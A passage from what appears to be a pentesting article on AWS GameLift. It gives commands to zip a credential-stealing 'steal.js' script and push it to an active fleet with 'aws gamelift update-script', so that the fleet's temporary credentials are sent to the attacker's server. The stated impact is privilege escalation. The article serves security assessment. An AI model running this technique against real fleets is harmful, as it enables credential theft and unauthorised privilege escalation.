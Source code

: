 ```jsx
    onSendToGroup: onSendToGroup,
    onPlayerJoinGroup: onPlayerJoinGroup,
    onPlayerLeaveGroup: onPlayerLeaveGroup,
    onStartGameSession: onStartGameSession,
    onProcessTerminate: onProcessTerminate,
    onHealthCheck: onHealthCheck
};
```

You need to obtain a launch path which has been used during`create-fleet`  operation and locate your malicious script in a zipped directory accordingly.

Then upload the zipped `steals.js` script using  `update-script` command with the `script-id` which is used for an active fleet. After some time, you will receive temporary credentials from compromised fleets on your server.

```bash
zip script.zip steal.js 

export SCRIPT_ID=script-1111aaaa-22bb-33cc-44dd-5555eeee66ff
aws gamelift update-script
		--script-id $SCRIPT_ID \
		--zip-file fileb://script.zip
```

**Potential Impact:** Privilege escalation to a different role attached to an active Gamelift fleet with Realtime Server.

## Conclusions

Pentesters will not encounter the AWS GameLift service in each environment because it is used only for multiplayer games. Regardless, AWS security best practices for such highly specialized services should not be overlooked during security assessments, especially protection against potential privilege escalation attacks.
We hope this article will help you in your future assessments. Stay tuned for the second part of the GameLift security review where we explore how to enumerate, persist, and exploit the service.

## References

[https://docs.aws.amazon.com/gamelift/latest/apireference/Welcome.html](https://docs.aws.amazon.com/gamelift/latest/apireference/Welcome.html)

[https://docs.aws.amazon.com/cli/latest/reference/gamelift/index.html#cli-aws-gamelift](https://docs.aws.amazon.com/cli/latest/reference/gamelift/index.html#cli-aws-gamelift)

[https://docs.aws.amazon.com/gamelift/latest/developerguide/gamelift-intro.html](https://docs.aws.amazon.com/gamelift/latest/developerguide/gamelift-intro.html)
